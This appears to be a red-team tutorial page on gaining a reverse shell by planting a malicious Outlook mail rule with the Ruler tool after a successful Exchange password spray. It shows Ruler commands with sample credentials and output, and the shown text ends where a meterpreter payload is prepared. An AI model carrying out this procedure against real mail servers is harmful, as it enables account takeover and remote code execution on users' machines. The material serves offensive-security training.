 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
### Getting a Shell via Malicious Email Rule

If the password spray against an Exchange server was successful and you have obtained valid credentials, you can now leverage Ruler to create a malicious email rule to that will gain you remote code execution on the host that checks that compromised mailbox.

A high level overwiew of how the spraying and remote code execution works:
* assume you have obtained working credentials during the spray for the user spotless@offense.local
* with the help of Ruler, a malicious mail rule is created for the compromised account which in our case is spotless@offense.local. The rule created will conform to the format along the lines of:
* if emailSubject contains someTriggerWordstartpathToSomeProgram
* A new email with subject containing someTriggerWord is sent to the spotless@offense.local
* User `spotless` logs on to his/her workstation and launches Outlook client to check for new email

Malicious email comes in and the malicious mail rule is triggered, which in turn starts the program specified in pathToSomeProgram which is pointing to a malicious payload giving a reverse shell to the attacker

```
ruler -k --verbose --email spotless@offense.local -u spotless -p 123456  display
```

The below suggests the credentials are working and that no mail rules are set for this account yet:

```
root@kali ruler -k --verbose --email spotless@offense.local -u spotless -p 123456  display
[+] Found cached Autodiscover record. Using this (use --nocache to force new lookup)
[*] MAPI URL found: https://dc01.offense.local/mapi/emsmdb/?MailboxId=XXXX-XXXX-XXXX@offense.local
[*] MAPI AddressBook URL found:
[*] User DN: /o=offense/ou=Exchange Administrative Group {redacted for brevity}
[*] Got Context, Doing ROPLogin
[*] And we are authenticated
[*] Openning the Inbox
[+] Retrieving Rules
[+] No Rules Found
[*] And disconnecting from server

```

To carry out the attack further, I've generated a reverse meterpreter payload and saved it as a windows executable in /root/tools/evilm64.exe 